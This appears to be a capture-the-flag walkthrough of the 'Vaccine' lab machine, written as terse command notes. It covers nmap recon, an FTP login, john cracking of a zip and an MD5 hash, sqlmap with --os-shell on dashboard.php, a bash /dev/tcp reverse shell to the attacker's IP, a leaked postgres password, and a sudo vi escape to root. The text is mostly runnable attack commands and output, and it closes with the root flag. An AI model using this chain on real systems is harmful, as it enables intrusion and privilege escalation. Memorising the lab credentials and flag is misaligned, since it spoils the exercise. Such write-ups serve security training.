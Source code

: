 inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c

# Vaccine

## nmap

<pre>
sudo nmap -sC -sV -A 10.10.10.46

Nmap scan report for 10.10.10.46
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   244.85 ms 10.10.14.1
2   244.90 ms 10.10.10.46
</pre>

## Need to install ftp

<pre>
ftp 10.10.10.46
username: ftpuser
password: mc@F1l3ZilL4

get the backup.zip
</pre>

## Use zip hash to crack

<pre>
zip2john backup.zip > backup.hash
john backup.hash --show (741852963)
unzip backup.zip in this password
</pre>

## Try login on [index.php](./ftp/backup/index.php)

<pre>
username: admin
password (md5 reverse): 2cb42f8734ea607eefed3b70af13bbd3 ( qwerty789)
</pre>

## Sqlmap to hack os shell

> sqlmap 10.10.10.46/dashboard.php?search=whatever --cookie="PHPSESSID=01aruoep6i9jf18e8ho8runboo" --os-shell

**pwd**
> /var/lib/postgresql/11/main

**change cmd**
*source*
> bash -c 'bash -i >& /dev/tcp/10.10.14.69/8001 0>&1'
*destination*
> nc -lvnp 8001

**id**
> uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)

- postgresql account in [/var/www/html/dashboard.php](./dashboard.php)
> username: postgres
> password: P@s5w0rd!
> port:     5432 (omit)
> dbname:   carsdb

## Sudo lists all privilege command can do

> sudo -l

<pre>
Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
</pre>

- postgres can use vi in /bin/vi
> which vi
> /usr/bin/vi

- use sudo vi to get root
> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
> :!/bin/bash -P

<pre>
root.txt
dd6e058e814260bc70e9bbdef2715849
</pre>